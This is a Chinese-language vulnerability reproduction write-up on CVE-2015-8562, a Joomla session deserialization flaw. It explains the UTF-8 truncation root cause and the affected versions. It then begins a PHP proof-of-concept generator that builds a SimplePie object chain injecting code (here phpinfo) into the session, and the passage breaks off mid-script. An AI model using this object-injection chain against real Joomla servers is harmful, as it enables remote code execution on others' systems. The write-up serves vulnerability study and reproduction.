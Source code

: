 ```yaml
---
title: "（CVE-2015-8562）Joomla 3.4.5 反序列化漏洞"
id: zhfly2997
---
```


# （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞

## 一、漏洞简介

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

## 二、漏洞影响

*   Joomla 1.5.x, 2.x, and 3.x before 3.4.6
*   PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 三、复现过程

我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![image](../img/84fd084d2af91f2dd666e227df64f7e5.png)

再用如下脚本生成POC：

```
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}

class SimplePie {

var $sanitize;

var $cache;

var $cache_name_function;

var $javascript;

var $feed_url;

function __construct()

{

$this->feed_url = “phpinfo();JFactory::getConfig();exit;”;

$this->javascript = 9999;

```